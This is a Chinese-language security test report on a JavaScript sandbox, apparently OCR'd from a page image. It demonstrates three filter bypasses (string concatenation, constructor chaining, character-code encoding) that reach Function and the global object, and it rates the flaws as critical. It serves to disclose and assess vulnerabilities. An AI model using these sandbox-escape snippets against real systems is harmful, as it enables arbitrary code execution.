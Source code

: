 
## 🔬 实际测试验证

### 测试 1: 字符串拼接绕过

```javascript
// 测试代码
var F = 'Func' + 'tion';
var dangerous = globalThis[F];
return typeof dangerous;  // 返回 "function" - 绕过成功！
```

**结果**: ✅ 绕过成功，未被检测

### 测试 2: 构造器链绕过

```javascript
// 测试代码
var ctor = ({}).constructor.constructor;
return ctor('return "escaped"')();  // 返回 "escaped" - 沙箱逃逸！
```

**结果**: ✅ 绕过成功，沙箱逃逸

### 测试 3: 编码绕过

```javascript
// 测试代码
var F = String.fromCharCode(70,117,110,99,116,105,111,110);
return globalThis[F]('return this')();  // 返回全局对象 - 严重漏洞！
```

**结果**: ✅ 绕过成功，获取全局对象

---

## 💥 安全风险评估

### 风险等级: 🔴 **严重 (Critical)**

| 风险类型 | 严重程度 | 利用难度 | 影响范围 |
|---------|---------|---------|---------|
| **沙箱逃逸** | 🔴 严重 | 🟢 简单 | 完全控制 |
| **任意代码执行** | 🔴 严重 | 🟢 简单 | 完全控制 |
| **原型污染** | 🟡 高 | 🟡 中等 | 数据泄露 |
| **DoS 攻击** | 🟡 高 | 🟢 简单 | 服务中断 |

### 可能的攻击场景

#### 1. 获取全局对象
```javascript
var g = ({}).constructor.constructor('return this')();
// 现在可以访问所有全局对象和方法
```
